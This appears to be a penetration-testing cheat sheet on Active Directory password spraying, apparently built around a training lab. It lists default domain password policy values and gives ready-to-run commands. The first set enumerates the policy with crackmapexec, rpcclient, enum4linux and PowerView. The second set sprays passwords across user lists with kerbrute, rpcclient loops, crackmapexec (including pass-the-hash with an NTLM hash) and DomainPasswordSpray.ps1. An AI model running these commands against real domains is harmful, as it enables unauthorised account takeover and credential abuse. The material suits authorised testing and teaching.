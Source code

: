 ```yaml
---
title: "Password Spraying"
Description: 
draft: false
images: []
menu:
  docs:
    parent: "Active Directory"
weight: 3
toc: true
---
```

## <span style="color:#208355"> Password Policy

The default password policy when a new domain is created is as follows, and there have been plenty of organizations that never changed this policy:

|     Policy     |      Default Value         |
|:----------|:-------------|
|Enforce password history| 	24 days|
|Maximum password age|	42 days|
|Minimum password age|	1 day|
|Minimum password length|	7|
|Password must meet complexity requirements|	Enabled|
|Store passwords using reversible encryption|	Disabled|
|Account lockout duration|	Not set|
|Account lockout threshold|	0|
|Reset account lockout counter after|	Not set|

### <span style="color:#208355"> Enumerating the Password Policy - from Linux

```
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```
```python
rpcclient -U "" -N 172.16.5.5

rpcclient $> querydominfo
rpcclient $> getdompwinfo
```
```
enum4linux -P 172.16.5.5
```
```
enum4linux-ng -P 172.16.5.5 -oA enum4linuxOutput
```
```python
ldapsearch -h 172.16.5.5 -x -b "DC=EXAMPLE,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```
### <span style="color:#208355"> Enumerating the Password Policy - from Windows
```
C:\kryot> net accounts
```
```python
PS C:\htb> import-module .\PowerView.ps1
PS C:\htb> Get-DomainPolicy
```
## <span style="color:#208355"> Password Spraying

### <span style="color:#208355"> Internal Password Spraying - from Linux

Bash oneliner
```powershell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
Kerbrute
```
kerbrute passwordspray -d example.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
Crackmapexec
```
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
Local Admin Spraying with CrackMapExec

```
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

### <span style="color:#208355"> Internal Password Spraying - from Windows
<span style="color:#208355"><a href="https://github.com/dafthack/DomainPasswordSpray" target="_blank">DomainPasswordSpray.ps1</a></span>

```
PS C:\kryot> Import-Module .\DomainPasswordSpray.ps1
PS C:\kryot> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

Kerbrute.exe
```
kerbrute.exe passwordspray -d example.local --dc 172.16.5.5 valid_users.txt  Welcome1
```